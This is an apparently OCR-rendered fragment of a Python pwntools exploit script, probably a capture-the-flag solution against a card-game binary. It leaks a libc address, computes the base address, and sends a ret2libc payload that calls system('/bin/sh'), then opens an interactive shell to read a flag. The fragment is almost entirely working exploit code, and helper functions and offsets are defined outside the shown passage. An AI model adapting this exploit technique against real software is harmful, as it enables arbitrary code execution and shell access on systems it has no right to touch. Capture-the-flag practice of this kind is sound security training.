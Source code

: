 ```python
	cards = hand.split()
	points = calc_hand(cards)
	if points == 16800:
		break
	do_fold()

leak = do_play()
leak_offset = 0x18637
libc_leak = u32(leak.strip().split('A'*20)[1])
libc_base = check_leak(libc_leak, leak_offset)
log.info('libc_base: 0x%08x' % libc_base)

# STEP 4: system
while True:
	points = 0
	num_cards = 5

	for _ in range(5):
		do_draw()

	hand = do_show()
	cards = hand.split()
	points = calc_hand(cards)
	if points == 16800:
		break
	do_fold()

system = libc_base + libc_system_offset
payload = p32(0xdeadbeef)  #
payload += p32(system)     # 
payload += p32(0xdeadbeef) #
payload += p32(stack_leak) #
payload += '/bin/sh\0'     # stack_leak
do_play(2, payload)

# Leave table (option 6), cat $PATH/flag
io.interactive()
```